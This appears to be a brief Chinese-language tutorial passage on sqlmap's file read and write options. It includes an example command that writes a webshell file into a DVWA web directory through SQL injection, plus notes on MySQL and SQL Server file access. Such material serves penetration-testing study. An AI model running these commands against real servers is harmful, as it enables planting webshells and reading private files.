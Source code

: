 # 读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

| –file-read=RFILE | 从后端的数据库管理系统文件系统读取文件 （物理路径） |
| :--- | :--- |
| –file-write=WFILE | 编辑后端的数据库管理系统文件系统上的本地文件 （mysql xp\_shell） |
| –file-dest=DFILE | 后端的数据库管理系统写入文件的绝对路径 |

```text
#示例：
sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write 
“f:\webshell\1112.php”
```

\#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp\_dirtree函数）

